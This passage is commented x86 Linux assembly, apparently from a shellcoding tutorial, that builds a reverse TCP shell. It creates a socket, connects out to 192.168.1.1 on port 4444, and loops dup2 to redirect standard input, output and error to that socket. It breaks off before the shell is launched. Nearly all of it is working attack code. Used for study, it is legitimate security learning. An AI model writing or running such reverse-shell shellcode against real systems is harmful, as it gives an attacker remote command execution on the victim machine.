 ```
; Argument Values:
; EBX -> domain = 2 (AF_INET/IPv4)
; ECX -> type = 1 (SOCK_STREAM/TCP)
; EDX -> protocol = 6 (IPPROTO_TCP)
;
; Note: For protocol, we could also use 0, as the man page for socket tells us,
; "Normally only a single protocol exists to support a particular socket type
;   within a given protocol family, in which case protocol can be specified
;   as 0."

  mov bl, 2
  mov cl, 1
  mov dl, 6
  mov ax, 0x167
  int 0x80


; CONNECT TO REMOTE ADDRESS
; int connect (int sockfd, const struct sockaddr *addr, socklen_t addrlen);
; syscall number: 362 (0x16a)
;
; Argument Values:
; sockfd = value in eax returned by socket()
; *addr = memory address of structure containing:
;   - sin_family: 0x0002 (AF_INET/IPv4)
;   - sin_port: 0x115c (4444)
;   - sin_addr.s_addr: 0x0101a8c0 (192.168.1.1)
; addrlen = 0x10 (16/sizeof(sockaddr_in))

  mov ebx, eax ; mov sockfd value into ebx

  push 0x0101a8c0

  push word 0x5c11 ; push 0x115c for sin_port
  push word 0x02 ; push 0x0002 for sin_family

  mov ecx, esp ; memory pointer to our sockaddr struct

  mov dl, 0x10
  mov ax, 0x16a
  int 0x80


; CHANGE STD FILE DESCRIPTORS
; int dup2(int oldfd, int newfd);
; syscall number: 63 (0x3f)
;
; Argument Values:
; oldfd = value in ebx used by connect()
; newfd = 0, 1, 2 iteratively (stdin, stdout, stderr)

  xor ecx, ecx
  mov cl, 3 ; 3 file descriptors (stdin, stdout, stderr)

dup_descriptors:
  dec cl ; hack for loop to work with values 2,1,0 instead of 3,2,1
  mul edx ; zero out eax
  mov al, 0x3f
  int 0x80 ; dup2 stdin
  inc cl ; hack for loop to work with values 2,1,0 instead of 3,2,1
  loop dup_descriptors


```